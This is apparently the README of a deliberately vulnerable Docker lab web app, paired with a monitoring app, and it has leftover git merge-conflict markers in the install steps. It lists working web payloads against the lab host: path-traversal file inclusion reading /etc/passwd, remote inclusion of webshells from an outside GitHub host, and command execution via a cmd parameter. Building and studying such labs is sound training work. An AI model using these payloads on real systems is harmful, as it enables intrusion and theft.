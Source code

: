 # Alpha and Beta app

Alpha is a strong web app with minimum feature. And Beta is monitoring app for security purposes.

### Install app

* install docker-compose
<<<<<<< HEAD
* create instance docker
```
sudo docker-compose build
sudo docker-compose up -d
```
=======
* my docker-compose version
```
docker-compose version 1.29.2, build unknown
docker-py version: 5.0.3
CPython version: 3.9.2
OpenSSL version: OpenSSL 1.1.1l  24 Aug 2021
```
* build instance docker ```sudo docker-compose build```
* create instance docker ```sudo docker-compose up -d```
>>>>>>> 3529ae3 (edit readme)
* run script ```sudo bash start.sh```

### Alpha app

* **Alpha web page** - adjust IP address with your own Docker IP address
```
http://172.17.0.1/index.php
```
* **Directory Listing**
```
http://172.17.0.1/verysupersecret/
```
* **Local File Inclution**
```
http://172.17.0.1/index.php?file=../../../../../../../etc/passwd
```
* **Remote File Inclution**
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/phpinfo.php
```
* **Remote Code Execution** - need to trigger RFI first then add ```&cmd=id``` ```&cmd=whoami ```
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/simple.php&cmd=id
```

### Beta app

* **Beta web app**
```
http://172.17.0.1:8888/index.php
```
